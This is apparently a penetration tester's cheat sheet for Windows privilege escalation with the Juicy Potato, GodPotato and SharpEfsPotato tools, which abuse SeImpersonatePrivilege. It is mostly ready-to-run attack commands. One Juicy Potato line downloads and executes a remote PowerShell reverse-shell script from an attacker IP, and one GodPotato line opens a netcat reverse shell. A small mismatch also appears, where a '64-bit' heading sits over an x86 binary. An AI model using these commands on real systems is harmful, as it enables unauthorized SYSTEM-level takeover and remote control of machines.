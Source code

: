 ## Required Privileges

- `SeImpersonatePrivilege` OR
- `SeAssignPrimaryTokenPrivilege`

## Juicy Potato

Repo: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

List of CLSIDs:
- [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
- Mirror: [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/)

### Usage

#### 64-bit

```cmd
c:> JuicyPotatox86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://192.168.119.130:8080/minirev.ps1')" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

## GodPotato LPE
DCOM based exploitation
Repo: https://github.com/BeichenDream/GodPotato

```
GodPotato -cmd "cmd /c whoami"
```

Execute reverse shell commands:

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

# SharpEfsPotato

Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

## [](https://github.com/bugch3ck/SharpEfsPotato#usage)Usage

```
C:\temp>SharpEfsPotato.exe -h
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

  -p, --prog=VALUE           Program to launch (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -h, --help                 Display this help
```